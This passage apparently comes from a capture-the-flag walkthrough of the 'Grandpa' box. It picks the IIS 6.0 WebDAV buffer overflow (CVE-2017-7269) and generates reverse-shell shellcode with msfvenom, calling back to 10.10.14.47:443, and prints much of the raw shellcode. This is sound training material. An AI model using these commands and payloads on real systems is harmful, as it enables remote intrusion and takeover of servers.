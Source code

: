 ```
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                  | windows/remote/8765.php
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                       | windows/remote/19033.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

## Shell as network service

### Select Vulnerability

The most interesting vulnerability in the list from `searchsploit` was `WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow`. It matches the version of Grandpa, it provides remote code execution. Also, I’ll note that the `nmap` WebDAV scan returned a bunch of info, and this is an exploit against WebDAV.

I’ll use `searchsploit -x windows/remote/41738.py` to examine the exploit code. It creates a payload that is modeled after an HTTP request, and includes shellcode to launch `calc.exe`.

Some Googling shows this is [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269), which has many public exploit scripts available.

### Update Shellcode - Fail

A very common thing in OSCP is finding an exploit script like this, and needing to modify it to put in your own shellcode to get a shell. I’ll use `msfvenom` to create the shellcode:

```

root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.47 LPORT=443 -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1823 bytes
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff"
shellcode += b"\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40"
shellcode += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x05\x68\x0a\x0a\x0e\x2f\x68\x02\x00\x01"
shellcode += b"\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74"
shellcode += b"\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75"
shellcode += b"\xec\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d"
shellcode += b"\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12"
```